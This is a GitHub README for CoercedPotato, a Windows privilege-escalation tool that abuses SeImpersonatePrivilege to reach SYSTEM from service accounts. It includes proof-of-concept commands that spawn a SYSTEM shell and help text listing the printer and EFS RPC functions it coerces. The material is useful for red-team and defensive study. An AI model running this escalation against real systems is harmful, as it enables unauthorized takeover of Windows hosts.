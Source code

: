 ###
# Coerced potato

From Patate (LOCAL/NETWORK SERVICE) to SYSTEM by abusing `SeImpersonatePrivilege` on Windows 10, Windows 11 and Server 2022.

For more information: [https://blog.hackvens.fr/articles/CoercedPotato.html](https://blog.hackvens.fr/articles/CoercedPotato.html) (The english version is coming soon!! 😄)

A very quick PoooooC:

```txt
.\CoercedPotato.exe -c whoami
```
An other PoC with an interactive shell:

```txt
.\CoercedPotato.exe -c cmd.exe
```
<p align="center">
  <img src="poc.png">
</p>


## Usage

You can check the help message using the `--help` option.

```txt
                                                                  
   ____                            _ ____       _        _        
  / ___|___   ___ _ __ ___ ___  __| |  _ \ ___ | |_ __ _| |_ ___  
 | |   / _ \ / _ \ '__/ __/ _ \/ _` | |_) / _ \| __/ _` | __/ _ \ 
 | |__| (_) |  __/ | | (_|  __/ (_| |  __/ (_) | || (_| | || (_) |
  \____\___/ \___|_|  \___\___|\__,_|_|   \___/ \__\__,_|\__\___/ 
                                                                  
                                           @Hack0ura @Prepouce    
                                                                  
CoercedPotato is an automated tool for privilege escalation exploit using SeImpersonatePrivilege or SeImpersonatePrimaryToken.
Usage: .\CoercedPotato.exe [OPTIONS]

Options:
  -h,--help                   Print this help message and exit
  -c,--command TEXT REQUIRED  Program to execute as SYSTEM (i.e. cmd.exe)
  -i,--interface TEXT         Optionnal interface to use (default : ALL) (Possible values : ms-rprn, ms-efsr
  -n,--exploitId INT          Optionnal exploit ID (Only usuable if interface is defined) 
                               -> ms-rprn : 
                                 [0] RpcRemoteFindFirstPrinterChangeNotificationEx()
                                 [1] RpcRemoteFindFirstPrinterChangeNotification()
                               -> ms-efsr 
                                 [0] EfsRpcOpenFileRaw()
                                 [1] EfsRpcEncryptFileSrv()
                                 [2] EfsRpcDecryptFileSrv()
                                 [3] EfsRpcQueryUsersOnFile()
                                 [4] EfsRpcQueryRecoveryAgents()
                                 [5] EfsRpcRemoveUsersFromFile()
                                 [6] EfsRpcAddUsersToFile()
                                 [7] EfsRpcFileKeyInfo() # NOT WORKING
                                 [8] EfsRpcDuplicateEncryptionInfoFile()
                                 [9] EfsRpcAddUsersToFileEx()
                                 [10] EfsRpcFileKeyInfoEx() # NOT WORKING
                                 [11] EfsRpcGetEncryptedFileMetadata()
                                 [12] EfsRpcEncryptFileExSrv()
                                 [13] EfsRpcQueryProtectors()
                              
  -f,--force BOOLEAN          Force all RPC functions even if it says 'Exploit worked!' (Default value : false)
  --interactive BOOLEAN       Set wether the process should be run within the same shell or open a new window. (Default value : true)
```


Made in France 🇫🇷 with <3
